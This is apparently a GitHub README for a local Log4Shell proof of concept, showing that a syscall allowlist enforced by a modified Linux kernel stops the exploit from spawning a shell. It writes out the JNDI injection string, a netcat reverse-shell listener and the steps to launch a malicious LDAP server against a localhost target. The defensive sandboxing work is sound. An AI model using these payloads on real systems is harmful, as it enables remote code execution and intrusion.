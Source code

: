 ## Log4Shell
A small proof-of-concept for the Log4Shell vulnerability based on https://github.com/kozmer/log4j-shell-poc.
The vulnerable application is a simple login component which logs the username when login fails, using a vulnerable version of the Log4j logging framework.
The application is used to show how an attacker's capabilities can be restricted with a simple sandboxed execution environment, defined by the system calls that the application is allowed to make.

The code has only been tested on Ubuntu 22.04, using User Mode Linux.

## Requirements
The Maven project management tool has been used to compile the vulnerable application. However, testing the proof-of-concept should be possible without compiling the vulnerable application since a compiled version of the vulnerable application is already included in this repository.

Python 3 is used to start a malicious LDAP server, serving a class `Exploit.class` which tries to establish a reverse shell.

Netcat is used to catch the reverse shell connection.


## Testing the exploit
1. Optionally, compile the vulnerable application by running `mvn package`.
2. In a terminal window, start the vulnerable web application with the command `./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
3. In a second terminal window, start a Netcat listener with the command: `nc -lvnp 9001`.
4. In a third terminal window, start the malicious LDAP server with the command: `python3 poc.py --userip localhost --webport 8000 --lport 9001`.
5. In the vulnerable application, type in the following username `${jndi:ldap://localhost:1389/a}`. Then type in any password.
6. Go to the second terminal window. A reverse shell should now have been established. This can e.g. be tested by trying to run `ls` or `whoami`.

## Testing the exploit with a restricted Java interpreter
The ELF file of the Java interpreter `./jdk1.8.0_20/bin/java` contains information about the system calls that the interpreter requires to run the vulnerable application. In particular, the interpreter does not need to execute the `execve` system call to work properly. The `execve` system call is used to establish the reverse shell by executing `execve("/bin/sh", ...)`.

Thus, it is not possible to establish a reverse shell with the same easy approach as described above if the vulnerable application is run in a sandbox, where it is only allowed to execute the system calls that it requires to work properly.

To test this, perform the same steps as described above, but do it in the modified Linux kernel which can be found at: https://github.com/TobiasNissen/linux_kernel_fork. See more details on this below After performing step 5, the vulnerable application should now terminate, and no reverse shell should be established.


## Running the modified Linux kernel.
Firstly, build a root file system by running:
```
sudo sh ./fs/make_root_fs.sh
```

Then, build the Linux kernel by running the following command in the root directory of the modified Linux kernel:
```
make -j4 ARCH=um
```

The modified kernel can now be run with the following command from the root directory of the modified Linux kernel:
```
sudo ./linux ubda=<path_to_root_fs> rw mem=128M eth0=tuntap,,,192.168.0.254
```
Here, `<path_to_root_fs>` is the path to the root file system built in the first step. E.g.:
```
sudo ./linux ubda=../log4shell-poc/root_fs rw mem=128M eth0=tuntap,,,192.168.0.254
```

Observe that it is possible to connect two other terminals to the UML instance with:
```
sudo screen /dev/pts/X
sudo screen /dev/pts/Y
```
, where `X` and `Y` are the device numbers that can be found in the startup output when running the kernel.

In all terminals, the username `root` can be used with no password to login.

Now, bring up the network interface, required for localhost communication, by running:
```
ifconfig eth0 192.168.0.254 up
```

Next, create a mounting point with:
```
mkdir /mnt/tmp
```
, and then mount the log4shell-poc directory from the host machine with:
```
mount none /mnt/tmp -t hostfs -o /home/ttn/Desktop/log4shell-poc
```

The log4shell-poc directory can now be accessed by executing:
```
cd /mnt/tmp
```

From this point, the same steps as described above can be used to play with the Log4Shell proof of concept.
Note that the Java interpreter `./jdk1.8.0_20/bin/java_orig` can be used to demonstrate the Log4Shell vulnerability in the modified Linux kernel, since this is a version of the Java interpreter that has not been patched with an access right table.

The UML instance can be stopped with the command `halt`.


## Creating the restricted Java interpreter
The restricted Java interpreter was created by first analyzing the set of system calls required for the vulnerable application to
work properly. This was done using `strace`. In particular, the following command was executed from a `root` shell in the modified Linux kernel:
```
strace -f -o trace_uml.txt ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp
```
The vulnerable application was then used, trying to login with both invalid and valid logins before terminating the application.

Afterwards, a list of system call numbers were extracted with the command:
```
cat trace_uml.txt | tail -n +2 | cut -d" " -f3 | grep -o -e "^[^(]*" | sort | uniq > syscall_names_uml.txt
```
Note that the first system call in `trace.txt` is `execve("./jdk1.8.0_20/bin/java", ...)` which is used to spawn the Java interpreter. 
Thus, this system call is ignored with the `tail -n +2` command. Furthermore, a few invalid lines had to be removed manually.

Lastly, the extracted system calls were added to the ELF file of the Java interpreter by running `linux_set_up_access_rights.py ./jdk1.8.0_20/bin/java syscall_names_uml.txt`. Note that this requires `sh ./python_dependencies/install_dependencies` to be run first.

Note that the modified Linux kernel reads the required system calls added by `linux_set_up_access_rights.py` to the file `./jdk1.8.0_20/bin/java` and installs a seccomp-BPF filter that ensures that only these system calls are allowed for the vulnerable application. 


